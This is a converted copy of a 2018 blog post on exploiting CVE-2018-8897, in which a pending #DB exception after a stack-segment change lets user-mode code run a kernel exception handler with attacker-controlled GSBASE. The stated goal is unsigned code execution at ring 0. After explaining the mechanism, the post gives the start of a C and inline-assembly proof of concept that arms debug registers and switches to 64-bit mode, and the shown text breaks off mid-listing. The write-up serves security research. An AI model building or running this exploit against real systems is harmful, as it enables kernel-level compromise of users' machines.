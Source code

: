 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.can.ac](https://blog.can.ac/2018/05/11/arbitrary-code-execution-at-ring-0-using-cve-2018-8897/)

> Just a few days ago, a new vulnerability allowing an unprivileged user to run #DB handler with use......

Just a few days ago, a new vulnerability allowing an unprivileged user to run #DB handler with user-mode GSBASE was found by Nick Peterson ([@nickeverdox](https://twitter.com/nickeverdox)) and Nemanja Mulasmajic ([@0xNemi](https://twitter.com/0xNemi)). At the end of the whitepaper they published on [triplefault.io](http://triplefault.io/), they mentioned that they were able to load and execute unsigned kernel code, which got me interested in the challenge; and that’s exactly what I’m going to attempt doing in this post.

Before starting, I would like to note that this exploit may not work with certain hypervisors (like VMWare), which discard the pending #DB after INT3. I debugged it by “simulating” this situation.

_Final source code can be found at the bottom._

The fundamentals of this exploit is really simple unlike the exploitation of it. When stack segment is changed –whether via MOV or POP– until the next instruction completes interrupts are deferred. This is not a microcode bug but rather a feature added by Intel so that stack segment and stack pointer can get set at the same time.

However, many OS vendors missed this detail, which lets us raise a #DB exception as if it comes from CPL0 from user-mode.

We can create a deferred-to-CPL0 exception by setting debug registers in such a way that during the execution of stack-segment changing instruction a #DB will raise and calling _int 3_ right after. int 3 will jump to KiBreakpointTrap, and before the first instruction of KiBreakpointTrap executes, our #DB will be raised.

As it is mentioned by the everdox and 0xNemi in the original whitepaper, this lets us run a kernel-mode exception handler with our user-mode GSBASE. Debug registers and XMM registers will also be persisted.

All of this can be done in a few lines like shown below:

```
#include <Windows.h>
#include <iostream>

void main()
{
  static DWORD g_SavedSS = 0;

  _asm
  {
    mov ax, ss
    mov word ptr [ g_SavedSS ], ax
  }

  CONTEXT Ctx = { 0 };
  Ctx.Dr0 = ( DWORD ) &g_SavedSS;
  Ctx.Dr7 = ( 0b1 << 0 ) | ( 0b11 << 16 ) | ( 0b11 << 18 );
  Ctx.ContextFlags = CONTEXT_DEBUG_REGISTERS;
  SetThreadContext( HANDLE( -2 ), &Ctx );

  PVOID FakeGsBase = ...;

  _asm
  {
    mov eax, FakeGsBase                     ; Set eax to fake gs base

    push 0x23
    push X64_End
    push 0x33
    push X64_Start
    retf 
```